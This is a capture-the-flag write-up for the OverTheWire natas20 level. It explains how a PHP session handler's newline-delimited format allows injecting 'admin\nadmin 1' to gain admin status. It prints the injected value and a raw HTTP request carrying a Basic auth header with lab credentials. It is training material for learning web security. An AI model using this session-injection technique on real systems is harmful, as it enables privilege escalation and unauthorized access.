 ```php
}

?>
```

Thought it had something todo with the SID. Could not figure it out.

Used a write up to get a hint for the newline \(\n\).

Everything in \$\_SESSION is added to data with a newline delimiter by the mywrite function. Data is then written to a session file.

```php
ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
```

[https://www.php.net/manual/en/function.explode.php](https://www.php.net/manual/en/function.explode.php)  
explode — Split a string by a string

Everything written in session file is read by the myread function.

Spaces in files are used by explode to split the string. as long as the first part is not equal to "" the first part and seccond part of the explode are added back in the global \$\_SESSION variable.

```php
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```

This means if we write a session file that has 2 lines like this.

```text
name somename
admin 1
```

the read function will do the following.

```php
$_SESSION[name] = somename
$_SESSION[admin] = 1
```

this will then pass the print_credentials check. How do we do this ? Add a newline to the input.

admin\nadmin 1

```text
POST /index.php HTTP/1.1
Host: natas20.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Authorization: Basic bmF0YXMyMDplb2ZtM1dzc2h4YzVid3RWbkV1R0lscjdpdmI5S0FCRg==
Connection: close
Referer: http://natas20.natas.labs.overthewire.org/index.php
```